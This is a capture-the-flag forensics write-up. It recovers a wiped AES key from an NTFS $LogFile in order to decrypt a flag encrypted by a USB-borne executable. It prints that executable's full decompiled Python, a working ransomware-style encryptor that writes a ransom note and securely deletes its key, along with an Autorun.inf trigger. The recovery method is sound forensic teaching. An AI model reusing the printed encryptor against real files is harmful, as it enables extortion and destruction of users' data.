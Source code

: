 Community writeups (probably better than this one):

- https://warlocksmurf.github.io/posts/crewctf2024/#fiilllleeeeeeee-forensics

# Initial Analysis

From the challenge description we can see that our objective is to decrypt `flag.txt` using the contents of `fiilllleeeeeeee.ad1` (a disk image of a USB drive).

Opening the disk image in FTK reveals four regular files:

- `sdelete64.exe` - A standard Microsoft executable for securely deleting files.
- `fiilllleeeeeeee.exe` - A custom executable.
- `Autorun.inf` - A file used to automatically run `fiilllleeeeeeee.exe` when the USB stick is inserted.
- `message.txt` - A ransom note.

# Decompilation

We can extract `fiilllleeeeeeee.exe` and deduce from its icon that it is a PyInstaller executable.

There are many ways of recovering the original python from PyInstaller binaries. We will use [pyinstxtractor-ng](https://github.com/pyinstxtractor/pyinstxtractor-ng) to extract the `.pyc` files and [PyLingual](https://pylingual.io/) to decompile `fiilllleeeeeeee.pyc`:

```python
import subprocess
from cryptography.hazmat.primitives.asymmetric.x25519 import X25519PrivateKey, X25519PublicKey
from cryptography.hazmat.primitives.ciphers import algorithms, Cipher, modes
from hashlib import sha256
from pathlib import Path
import os
import shelve
import sys
PUBLIC_KEY = X25519PublicKey.from_public_bytes(bytes.fromhex('18099b8ba29b20553ee1fb36280fce8fcd616d036c70d24fe7918bc199baa879'))
if getattr(sys, 'frozen', False):
    WORKING_DIRECTORY = Path(sys.executable).parent
else:
    WORKING_DIRECTORY = Path(__file__).parent
SHARED_KEY_FILE = WORKING_DIRECTORY / 'shared_key'
MESSAGE_FILE = WORKING_DIRECTORY / 'message.txt'
SDELETE_FILE = WORKING_DIRECTORY / 'sdelete64.exe'
ENCRYPT_DIRECTORY = Path.home() / 'Documents' / 'is_you_happen_to_have_a_directory_named_this_and_they_get_encrypted_then_its_on_you'
MAGIC = b'ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef'

def main():
    if SHARED_KEY_FILE.exists():
        shared_key = SHARED_KEY_FILE.read_bytes()
    else:
        private_key = X25519PrivateKey.generate()
        public_key = private_key.public_key().public_bytes_raw()
        shared_key = sha256(private_key.exchange(PUBLIC_KEY)).digest()
        MESSAGE_FILE.write_text(f'\n        Whoops! Looks your files are encrypted.\n        Email fake@example.com quoting the following unique ID to decrypt your files:\n        {public_key.hex()}\n        ')
        SHARED_KEY_FILE.write_bytes(shared_key)
    if ENCRYPT_DIRECTORY.exists() and ENCRYPT_DIRECTORY.is_dir():
        for file in ENCRYPT_DIRECTORY.iterdir():
            if not file.is_file():
                continue
            contents = file.read_bytes()
            if contents.startswith(MAGIC):
                continue
            nonce = os.urandom(algorithms.AES256.block_size // 8)
            cipher = Cipher(algorithms.AES256(shared_key), modes.CTR(nonce))
            encryptor = cipher.encryptor()
            file.write_bytes(MAGIC + nonce + encryptor.update(contents) + encryptor.finalize())
    SHARED_KEY_FILE.write_bytes(b'A' * SHARED_KEY_FILE.stat().st_size)
    subprocess.call([str(SDELETE_FILE.resolve()), '/accepteula', str(SHARED_KEY_FILE.resolve())])
    subprocess.call(['notepad.exe', MESSAGE_FILE.resolve()])
if __name__ == '__main__':
    main()
```

We can see that the program:

- Creates a shared key an saves it to `shared_key`.
- Encrypts files using the shared key.
- Overwrites the `shared_key` file with `A`s, before using `sdelete64.exe` to delete it.

So, if we can recover `shared_key`, we will be able to decrypt `flag.txt`.

# Recovering `shared_key`

Recovering `shared_key` is the hard part of this challenge. The use of `sdelete64.exe`, combined with the fact that `shared_key`'s contents are effectively random means that most file recovery techniques will not work.

After some searching, we come across `$LogFile`, an artifact used to record transactions in order to recover from file system errors. It is possible that overwriting `shared_key`'s contents could be such a transaction, and that `$LogFile` may therefore hold the original contents.

To parse `$LogFile` we will use [LogFileParser](https://github.com/jschicht/LogFileParser) and load the resulting `LogFile.csv` into Excel. We can filter the `FileName` column to only show `shared_key` and locate the fifth record (`DeleteAttribute` on `$DATA`) which informs us that there is more information in `debug.log`. Searching for the corresponding LSN in `debug.log` reveals this record:

``` 
$DATA for MFT 43 in LSN 4211669:
0000	00 e0 e4 1e ef 5f a2 44  91 80 ac de e9 71 e2 20   ....._.D.....q. 
0010	a3 3f 2c e6 30 a4 11 ad  3a e8 66 8c e6 26 14 74   .?,.0...:.f..&.t
```

It seems likely that this is the shared key.

# Decrypting the Flag

Now we just need to reverse the decryption process:

```python
from cryptography.hazmat.primitives.ciphers import algorithms, Cipher, modes

from pathlib import Path

MAGIC = b'ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef'

SHARED_KEY = bytes.fromhex("""
00 e0 e4 1e ef 5f a2 44  91 80 ac de e9 71 e2 20
a3 3f 2c e6 30 a4 11 ad  3a e8 66 8c e6 26 14 74
""")

FLAG = Path("flag.txt").read_bytes()

nonce = FLAG[len(MAGIC):len(MAGIC)+algorithms.AES.block_size//8]
ct = FLAG[len(MAGIC)+len(nonce):]

cipher = Cipher(algorithms.AES256(SHARED_KEY), modes.CTR(nonce))
decryptor = cipher.decryptor()

print(decryptor.update(ct) + decryptor.finalize())
```

And we get the flag: `crew{d0_y0u_637_7h3_ch4ll3n63_n4m3?_f4a73851}`